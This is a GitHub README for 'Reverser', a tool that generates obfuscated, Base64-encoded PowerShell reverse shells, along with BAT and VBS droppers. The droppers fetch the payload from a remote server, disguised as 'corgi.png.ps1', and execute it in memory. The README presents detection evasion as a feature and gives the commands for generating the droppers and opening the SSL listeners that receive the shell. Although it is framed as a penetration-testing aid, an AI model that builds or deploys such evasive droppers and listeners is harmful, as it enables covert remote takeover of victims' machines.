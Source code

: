 # Reverser: Reverse Shell Generator with SSL Encryption

## Overview

**Reverse** is a Python-based tool designed to generate obfuscated PowerShell scripts or batch files for establishing a reverse shell with SSL encryption. This tool can help in penetration testing scenarios where the goal is to bypass security mechanisms and establish a secure connection to a target machine.

## Features

- **Reverse Shell with SSL Encryption:** Generates PowerShell scripts that establish an encrypted reverse shell connection using SSL.
- **Obfuscation:** Each generated PowerShell script uses randomly selected variable names to avoid signature-based detection by security tools.
- **Base64 Encoding:** The PowerShell scripts are encoded in Base64 for additional obfuscation.
- **Batch File Generation:** Create a batch file that downloads and executes the encoded PowerShell script directly from a remote server.
- **VBS File Generation:** Create a VBS file that downloads and executes the encoded PowerShell script directly from a remote server.
- **Customizable:** Users can specify the IP address, port, and server URL for downloading the PowerShell script.

### Prerequisites

- Python 3.x
- OpenSSL (for certificate generation)

### Installation

Clone the repository:

```bash
git clone https://github.com/ShkudW/Reverser.git
cd Reverser
```

## Explain

The tool can generate Three types of files, as chosen by the user:
- A single PS1 file with obfuscation and Base64 encoding containing a Reverse shell payload.
- An encoded BAT file that connects to a remote server to download and Execute the encoded PS1 file.
- A VBS file that connects to a remote server to download and Execute the encoded PS1 file.

The BAT and VBS files, during their initial request to the server to download the PS1 into memory, are executed over an encrypted channel using a Self-Signed Certificate. After downloading the PS1 file into memory, the BAT and VBS files will decode the script and establish an encrypted communication channel to create the Reverse Shell


This way, we can ensure that the communication is encrypted end-to-end.

## Usage

Creating only a PS1 file (obfuscated and Based64 encoded):
```bash
python3 Reverser.py -ip <Your_IP> -port <Your_PORT> -type ps1
```
![image](https://github.com/user-attachments/assets/a52d08f3-e61f-4a41-be2c-43bbb29ce7d9)

Creating a VBS file with the tool and transferring it to the listener's directory:
```bash
python3 Reverser.py -ip <Your_IP> -port <Your_PORT> -type vbs -server https://<Your_Listener_Server_IP_For_Downloadin_PS1/download/photo/corgi.png.ps1>
```
![image](https://github.com/user-attachments/assets/ad71135d-a456-427c-a0e5-89bc95d0d4cf)

Creating a BAT file with the tool and transferring it to the listener's directory:
```bash
python3 Reverser.py -ip <Your_IP> -port <Your_PORT> -type bat -server https://<Your_Listener_Server_IP_For_Downloadin_PS1/download/photo/corgi.png.ps1>
```
![image](https://github.com/user-attachments/assets/91411dd0-7ef9-42d2-95c8-918fb3ba42c2)


-----------------------------

Opening The listeners:

Opening a listener with the OpenSSL server to receive the Reverse shell connection:
```bash
openssl s_server -accept <Your_PORT> -cert reception.pem -key reception.key -quiet
```
open a listener with our server to handle the initial connection for downloading the PS1 file from the BAT/VBS file:
```bash
python3 listener.py -https_port|-http_port <Your_Listener_Server_PORT>
```


All The traffic is encrypted:
![image](https://github.com/user-attachments/assets/a2f21061-aa9c-425f-b631-0da774b01395)


Getting an encrypted Reverse Shell after downloading the PS1 file to the memory via encrypted connection:
![image](https://github.com/user-attachments/assets/eb34ed8a-e98c-4fed-b01d-f2bafdc00726)






